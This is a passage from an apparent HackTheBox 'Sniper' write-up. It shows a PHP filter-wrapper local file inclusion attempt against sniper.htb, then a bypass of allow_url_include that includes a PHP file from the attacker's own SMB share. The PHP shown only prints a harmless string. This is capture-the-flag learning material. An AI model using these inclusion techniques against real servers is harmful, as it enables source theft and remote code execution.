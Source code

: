 - **LFI using wrappers**

    Using this method we try to get the source code of a page using something called **wrappers.** I will try using PHP wrapper you can search for other wrappers.

    the request will *[http://sniper.htb/blog/?lang=pHp://FilTer/convert.base64-encode/resource=blog-en.php](http://sniper.htb/blog/?lang=pHp://FilTer/convert.base64-encode/resource=blog-en.php) ,* the request will try to encode the source code of blog-en.php to base64 and **send it back.

    but also this method fails.

    ![/images/Sniper/PHP-wrapper.png](/images/Sniper/PHP-wrapper.png)

- **Special Case**: **Bypass allow_url_include**

    When **allow_url_include** and **allow_url_fopen** are set to **Off**. It is still possible to include a remote file on **Windows** **servers** using the **smb** protocol. SOURCE

    so:

    1. Create a share **open to everyone.**
    2. Write a PHP code inside a file: `shell.php`
    3. Include it `http://sniper.htb/index.php?page=\\<YOUR_IP>\<SHARE_NAME>\shell.php`

    IMPORTANT NOTE : **Impacket smbserver** works great for transferring files but not so well for running files. so  **samba-server** works well you can install it from the package manager (apt in kali). Thanks to @blaudoom 

    so I created a PHP code that prints "**PHP isn't that cool**"

        <?php
        echo "PHP isn't that cool";
        ?>
